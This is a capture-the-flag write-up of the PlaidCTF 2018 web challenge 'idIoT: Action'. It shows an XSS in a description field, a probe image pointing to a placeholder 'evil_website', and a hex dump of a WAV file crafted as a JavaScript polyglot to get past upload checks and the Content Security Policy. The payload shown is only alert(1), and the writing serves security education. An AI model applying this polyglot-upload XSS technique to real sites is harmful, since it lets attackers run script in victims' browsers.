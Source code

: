 # PlaidCTF 2018


**It's recommended to read our responsive [web version](https://balsn.github.io/ctf_writeup/20180505-plaidctf/) of this writeup.**


 - [PlaidCTF 2018](#plaidctf-2018)
   - [web](#web)
     - [idIoT: Action (bookgin)](#idiot-action-bookgin)
     - [idIoT: Camera (unsolved, written by bookgin)](#idiot-camera-unsolved-written-by-bookgin)



## web

### idIoT: Action (bookgin)

After login, we can post a clip of audio with title and description. The description filed is vulnerable to XSS. We insert `<marquee>xss</marquee>` in to the description and find it works!

However, let's take a look at Content Security Policy:

```
style-src 'self' https://fonts.googleapis.com;
font-src 'self' https://fonts.gstatic.com;
media-src 'self' blob:;
script-src 'self';
object-src 'self';
frame-src 'self'
```

Note that `image-src` is not defined. We can insert `<img src="evil_website">` to check if the headless robot is browsing this clip.

It's impossible to XSS directly in the description because `script-src self` will block the inline javascript. However, if we can upload a javascript, we can use `<script src="...">` to execute the payload! But how?

The website allows the user to upload an audio clip, with file extension ogg/wav/wave/webm/mp3. The server site seems to validate the audio header. A plain text file cannot be uploaded. 

This is easy to bypass. We simply manipulate the WAV format and comment out the header field. Then, insert the javascript payload after the header.

```
00000000: 5249 4646 3d31 2f2a 5741 5645 666d 7420  RIFF=1/*WAVEfmt
00000010: 1000 0000 0100 0100 c05d 0000 80bb 0000  .........]......
00000020: 0200 1000 4c49 5354 1a00 0000 494e 464f  ....LIST....INFO
00000030: 4953 4654 0e00 0000 4c61 7666 3537 2e38  ISFT....Lavf57.8
00000040: 332e 3130 3000 6461 7461 80d8 0100 0000  3.100.data......
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 0000 0000 0000 0000 0000 0000 ffff 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000c0: 0000 0000 0000 0000 2a2f 0a3b 616c 6572  ........*/.;aler
000000d0: 7428 3129 3b0a                           t(1);.
```
